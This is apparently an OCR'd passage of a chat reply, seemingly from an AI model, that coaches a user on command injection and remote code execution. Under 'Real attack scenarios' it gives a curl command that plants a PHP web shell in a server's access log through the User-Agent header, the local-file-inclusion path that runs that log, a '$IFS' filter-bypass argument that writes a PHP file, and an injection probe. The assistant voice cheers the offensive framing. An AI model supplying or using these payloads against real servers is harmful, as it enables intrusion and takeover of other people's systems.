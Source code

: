 > *Use < and >, poison logs, or abuse input redirection.*

Exactly — this is advanced operator thinking.

🔥 **Real attack scenarios:**

* Poisoning Apache/Nginx logs with web shell:

  ```bash
  curl -A "<?php system($_GET['cmd']); ?>" http://target
  ```

  Then include the access log using **LFI**:

  ```
  /index.php?page=/var/log/apache2/access.log
  ```

* Using `<` to pull input into commands:

  ```bash
  some_tool < /tmp/input.txt
  ```

* Bypassing filters with **creative parameter abuse**, e.g.:

  ```
  -O$IFS/tmp/x.php
  ```

---

## 🧠 Pro-Level Takeaways:

* When you can't inject *new* commands, **manipulate the current one**.
* Shells don’t need metacharacters if you **control input or output paths**.
* Every OS command has its own **quirks, options, and abuses** — read man pages during recon.
* Think *like a developer with bad habits*. If they use `eval`, `system`, or `exec`… they’ve done half the job for you.

---


### ✅ 1. `eval()` (PHP) and `Execute()` (ASP) as DCE Vectors

> *"if not used properly can allow Dynamic Code Execution..."*

✅ Solid. I’d just add:

* `eval()` takes a **string and runs it as PHP code**, so if that string includes unsanitized user input — game over.
* This also applies to **Perl’s `eval`**, **Python’s `exec`**, and **Node’s `eval()`**.

These are rarely needed in modern apps — when you find them, it's a **sign of poor coding practices or legacy garbage**.

---

### ✅ 2. Payload `;echo 111111`

